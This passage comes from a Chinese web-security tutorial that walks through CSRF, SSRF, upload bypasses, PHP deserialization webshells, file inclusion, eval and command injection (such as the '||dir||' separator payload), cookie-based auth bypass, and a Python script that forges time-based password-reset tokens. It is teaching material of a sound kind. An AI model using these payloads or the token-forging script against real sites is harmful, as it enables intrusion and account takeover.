<input type="hidden" name="position" value="太平洋"/>
<input type="hidden" name="reamrk" value="送快些"/>
<input type="submit" name="sub" value="点击进入 - 免费看片"  />
</form>
```


```
当用户访问我们伪造的页面并点击按钮后，就实现了添加我们的收货地址的目的。
```


### SSRF服务端请求伪造

> SSRF漏洞的形成大多是由于服务端提供了其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。例如:远程获取图片是通过url地址来进行加载，我们可以把这个地址进行更改让其去访问本地的服务器或服务。

#### SSRF支持的协议

```
ftp://
file://
dict://

...
```

#### 主要攻击方式

```
· 端口扫描
· 读取文件
...
```

```
它的正常功能是获取一个远程图片
```


```
假如我们将url改成127.0.0.1 它会去访问本地并将数据内容保存到图片格式的文件
```


```
我们通过 curl 可以查看该图片的内容
```


```
SSRF能做的事不止是查看它内网搭建的网站内容，还可以读取它本地的文件。
```


## 文件上传漏洞

> 文件上传漏洞是指由于程序未对上传的文件进行严格的验证和过滤及限制，而导致用户可以越过其本身权限向服务器上传可执行的动态脚本文件。

### 任意文件上传

```
可以上传任意后缀的文件
```


### Content-Type 检测绕过

```
提交上传请求时，服务端会通过检测 content-type 是来判断否为图片
```


```
我们可以通过抓包来修改 content-type 实现绕过检测
将 content-type 修改为 static/image/png
```



### 前端 JavaScript 检测绕过

```
提交上传请求时，前端使用了js代码来检测上传请求的文件是否是图片，当然这种直接用前端来检测的是很骚的。懂开发的都知道前端的代码用户是通过审查元素删掉的。
```


## 反序列化漏洞

> 反序列化又叫对象注入，序列化在内部没有漏洞，漏洞产生是应该程序在处理对象、魔术函数以及序列化
>
> 相关的问题导致的 当传给 unserialize()的参数可控时， 那么用户就可以注入 payload,进行反序列化的时
>
> 候就可能触发对象中的一些魔术方法。

### 方法构造

```
漏洞产生的原因是开发者在开发该业务功能时，需要调用自己编写的function，使用了自动调用函数并没有做任何防护措施。
一般大一点的项目都有很多 function 因此在开发过程中可能会造成一些安全上的忽略。
```


```
我们可以看到它的请求参数是 data:{s:4:"func";s:3:"cha";s:4:"user";s:4:"test";}
其中 cha 就是一个项目中存在的 function 

假如，我们将cha 改成 print_r 试试能不能调用PHP内置函数
```


```
通过测试我们可以发现，它是可以调用PHP内置函数的。那么构造个PHP一句话试试？
```


```
通过测试我们可以发现通过该漏洞可以随意调用PHP内置函数。既然可以随意调用PHP内置函数，那我们就可以做到执行恶意代码、执行命令、读取/写入文件等操作。
```

### 写入文件

```
漏洞产生的原因是开发者写导出日志之类的业务功能，开发过程中忽略了一些安全的问题，导致某些参数是可控的。

假如我们把，xxxx.log 改成.php 后缀 内容更改为 恶意代码 它就会导出一个带有恶意代码的PHP文件在服务器中。
```


```
访问路径 static/log/xxxx.php 这就是我们导出的一句话木马。
```



## 其他漏洞

### 文件包含漏洞

> 文件包含漏洞产生于代码中文件包含函数的参数值可控的情况下

#### 本地文件包含

```
可以加载任意本地的文件，前提是你知道绝对路径的情况下。
```


#### 远程文件包含

```
配置中启动了 allow_url_include 导致攻击者可以利用远程文件包含 (RFI) 漏洞从外部服务器加载并执行恶意文件。

启动关闭需要修改 php.ini 文件中的 allow_url_include
allow_url_include = On
allow_url_include = Off

或者通过 PHP 脚本设置 该方法只对当前脚本有效
ini_set('allow_url_include','1');
```


```
也可以通过PHP原始流执行恶意代码 php://input
```


### 代码执行漏洞

> 当应用在调用一些字符串转化为代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码执行漏洞

#### PHP代码执行函数

```php
eval()
assert()
preg_replace()

...
```

```
以下页面，它的正常业务功能是查询用户信息。
```



``` 
但是代码中用到了 eval 函数，代码设计思维是想通过类型来进行查询 data[user] 就是通过用户名查询之类的。
漏洞的产生是因为没有在使用 eval 函数时做安全处理，导致 data 参数是可控的。
```


```
我们将参数改成 data[user]=phpinfo() 它就会将我们的参数值当作PHP代码执行。
```


### 命令执行漏洞

> 命令执行漏洞产生的原因也是参数可控所导致的，一些业务功能它需要用到执行命令来进行操作，但是忽略了代码的安全性导致用户可以控制该功能执行命令的参数，从而使用命令分隔符执行恶意命令。

```
以下页面它的正常业务功能是转换一个 .amr的文件为mp3或avi格式供用户下载。
```


```
我们在它发送请求过程中可以看到客户端参数是可控的。那么我们可以测试一下修改参数是否能够达到执行命令的效果

将 file 参数的值 改为 &dir& 或 ||dir||
```



```
可以发现 file 的参数值改成 ||dir|| 命令成功执行了。
```


### 会话认证漏洞

> 通常在程序开发过程中涉及到用户功能情况下会需要用到会话认证技术。而会话认证漏洞的产生是因为写的代码中只对session或cookie的值进行判断是否为空没有对比数据库。

```
以下页面它登录成功后的页面是 cookie/users 当我们直接访问它会提示非法登录
```



```
我们通过看代码可以发现它代码中在做会话认证的时候，只判断了 cookie 值是否为空。
```


```
我们通过浏览器自己创建一个cookie值，即可绕过该会话认证。
```


### 逻辑型漏洞

> 逻辑漏洞通常是由于开发者在编写代码时，未充分考虑到可能的输入、流程控制或者数据处理的边界情况，导致程序的行为和预期不符，进而出现安全问题或业务错误。与输入验证漏洞（如 SQL 注入、XSS）不同，逻辑漏洞一般表现为代码设计上的缺陷，可能在没有外部攻击的情况下，程序本身也会做出不正确的操作。

```
以下页面的正常业务功能是找回密码。
```


```
我们可以看到它的核心代码是根据+用户名生成一个 token 来进行验证修改密码。导致该代码存在一个很严重的逻辑型漏洞，比如我们可以编写一个脚本也同样根据时间和用户名生成 token，来实现任意用户密码修改的目的。
```


```python
# 以下是我用python编写的一个生成token的脚本
import time
import datetime
import hashlib

def getpwd():
    hash_str = hashlib.md5()
    date_time = int(time.time())
    users = "test" # 这里更改成我们要修改的用户名
    text = str(date_time) + users
    hash_str.update(text.encode(encoding='utf-8'))
    md5 = hash_str.hexdigest()
    print(str(md5))

if __name__ == '__main__':
    for i in range(60):
        getpwd()
        time.sleep(1)
```

```
然后我们先运行脚本，再去输入用户名发送请求找回密码。
```


```
发送请求后我们可以发现它在数据库里添加了一条带有 token 值的数据来做验证使用。
```


```
我们再通过运行的脚本来比对一下。
```


```
可以发现我们脚本生成的 token 有和它数据库里的 token 一样的。成功完成修改密码的操作。
```


